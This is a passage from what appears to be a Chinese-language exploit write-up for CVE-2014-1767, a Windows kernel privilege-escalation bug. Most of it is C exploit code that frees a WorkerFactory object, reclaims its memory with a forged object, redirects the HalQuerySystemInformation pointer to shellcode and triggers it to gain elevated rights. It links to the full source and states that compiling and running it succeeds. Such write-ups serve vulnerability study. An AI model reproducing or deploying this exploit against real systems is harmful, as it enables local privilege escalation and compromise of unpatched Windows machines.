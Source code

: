 ```
                                              NULL, NULL, 0, 0, 0);
    if (!NT_SUCCESS(status))
    {
        ShowError("fnNtCreateWorkerFactory", status);
        bRet = FALSE;
        goto exit;
    }

    // 第二次通信释放WorkerFactory对象占有的内存
    DeviceIoControl(hDevice, 0x120C3, inputBuf2, 0x10, NULL, 0, NULL, NULL);

    BYTE bBuf[0x14] = { 0 };

    // *Object = bBuf
    *(PDWORD)((ULONG)FakeWorkerFactory + 0x28) = (DWORD)bBuf;
    // *(PDWORD)(*Object + 0x10) = pHalQuerySystemInformation - 0x1C
    *(PDWORD)(bBuf + 0x10) = (DWORD)pHalQuerySystemInformation - 0x1C;

    IO_STATUS_BLOCK IoStatus;

    // 调用函数将构造的FakeWorkerFactory复制到释放的WorkerFactory对象占有的内存
    fnNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, NULL, 0, FALSE, FakeWorkerFactory, FakeObjSize - 0x4, NULL, FALSE);

    // 调用函数让*(_DWORD *)(*(_DWORD *)(*Object + 0x10) + 0x1C) = value执行
    PVOID pTarget = ShellCode;
    fnNtSetInformationWorkerFactory(hWorkerFactory, 8, &pTarget, sizeof(PVOID));

    // 调用函数实现提权
    if (!CallNtQueryIntervalProfile())
    {
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}
```  
  
```
```  
  
  
相关代码在：  
https://github.com/LegendSaber/exp/blob/master/exp/CVE-2014-1767.cpp  
。编译运行即可成功提权：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FuY06PrMyiaq2pEM5XX2vO9YIcF5eRYyL3tuUc0cFPibcSHgTHsTRxPf0ZiaVXQE89Nt8p204qnCPQA/640?wx_fmt=png "")  
#   
#   
# 参考资料  
#   
- # 《漏洞战争》  
  